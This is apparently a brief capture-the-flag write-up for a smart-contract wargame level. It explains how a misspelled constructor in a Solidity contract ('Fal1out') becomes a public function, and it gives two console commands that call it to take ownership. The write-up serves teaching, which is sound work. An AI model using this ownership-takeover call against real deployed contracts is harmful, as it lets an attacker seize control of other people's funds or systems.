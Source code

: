 ## Target

1. Take ownership of the contract

## Break Down & Analyze

The `constructor` has a typo: `Fal”1”out`. Since the wrong spelling, it is served as a function rather than a `constructor`, so everyone can call it and take ownership.

## Detailed Steps (work through the console)

```js
await contract.Fal1out() // call the wrong-spelled function to take ownership
await contract.owner() === player // check if you're the owner now
```
